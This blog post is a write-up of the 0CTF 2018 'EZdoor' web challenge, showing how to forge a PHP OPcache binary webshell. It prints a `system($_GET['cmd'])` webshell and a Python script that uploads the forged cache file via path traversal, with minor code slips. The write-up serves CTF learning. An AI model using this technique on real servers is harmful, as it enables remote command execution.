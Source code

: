 ```yaml
---
layout: post
title:  "0CTF - EZdoor Web Challenge Writeup"
comments: true
image: ''
date:   2018-04-10 00:06:31
tags:
- Web Security, CTF, 0CTF 2018, 0CTF Quals, PHP OPcache, PHP, Binary-PHP
description: 'Sunshine CTF 2018 web challenges writeup'
categories:
- Web, CTF, 0CTF Quals, Web Security
---
```


Challenge name: `EZdoor`

Link: `http://202.120.7.217:9527`

In this challenge, we are greeted with the <a href="https://github.com/gokulkrishna01/gokulkrishna01.github.io/tree/master/scripts/0CTF/source.php">source code</a>:

Breaking down the code,

{% highlight php %}

if(!file_exists($dir . "index.php")){
  touch($dir . "index.php");
}

{% endhighlight %}

does create a new `index.php` file if not created already.

This question was kind of similar to the one we had for ASIS CTF finals couple of years back. This made me realise that it was related to OPCache and since there was a <a href="http://gosecure.net/2016/04/27/binary-webshell-through-opcache-in-php-7/">writeup</a>, probably a research, on the same.

So going line by line, we were provided with 5 different functionalities - `pwd` for the `path`, `phpinfo` which provides the info page, `reset` to clear the directory, `time` to show the timestamp (this will prove to be important later) & `upload` option to upload our file.

Understanding the problem deeper, `OPCache` is the built-in caching engine with PHP 7.0.* versions. It not only compiles PHP scripts and sets the resulting bytecode in memory but also, offers caching in the filesystem when specifying a destination folder in `PHP.ini` file.

You can find the line `opcache.file_cache=/tmp/opcache` in `PHP.ini` file. Inside this folder, `OPCache` stores its compiled PHP scripts in the same folder where the PHP code is written. So essentially, a compiled version of `/var/www/index.php` will be stored in `/tmp/opcache/<system_id>/var/www/index.php.bin`.

To generate a `phpbin` file, create a `index.php` file with contents:


```
<?php
   system($_GET['cmd']);
?>
```


and then, `php -S 127.0.0.1:8080` and a simple `wget 127.0.0.1:8080` generated the `phpbin` file.

Also for this, the `php.ini` files has to be updated in the following way:


```
opcache.enable=1
opcache.validate_timestamps=1
opcache.file_cache= "/var/www/html/cache"
opcache.file_cache_only=1
```

Now to calculate the `system_id`, we have got a tool over <a href="https://github.com/GoSecure/php7-opcache-override">here</a> and with that, we can identify what we want to calculate.

To calculate the above, the parameters were `php_version = 7.0.28` , `zend_extension_id: API320151012,NTS` and `zend_bin_id: BIN_SIZEOF_CHAR48888`.

Calculation of `system_id` : `digest = hashlib.md5(php_version + zend_extension_id + zend_bin_id).hexdigest()`

Now about solving the challenge, firstly, to control the cache file, we mainly need to get hold of two parameters, `timestamp` and `opchache_ID`.


After generating the system ID, grab the `timestamp`. Set this to the OPcached web-shell (index.php.bin) to bypass opchache.validation_timestamp and upload it.

The final script was:

```
import struct
import requests

URL = "http://202.120.7.217:9527/"
sid = "7badddeddbd076fe8352e80d8ddf3e73"
UID = "c607e0c365ae4a0ea516aadaad3db7adfe45df9c" #constant
SID = "7badddeddbd076fe8352e80d8ddf3e73" #SystemID calculated

requests.get(URL+"?action=reset")
print "Reset done"


timestamp = int(requests.get(URL+"?action=time").text)
print "Time stamp: " + str(ts)


f = open("index.php.bin").read()

path = f[:8]+sid+f[40:64]+struct.pack("I", timestamp)+f[68:] #this is done to replace the SystemID and timestamp with a custom one in an already existing one

requests.post(
    URL+"?action=upload&name=../../../../../tmp/cache/"+SID+"/var/www/html/sandbox/"+UID+"/index.php.bin"
    , files=dict(file=path)
    )
```


Reach me out on <a href="https://twitter.com/gkgkrishna33/status/991204507689222149">Twitter</a> for more queries.
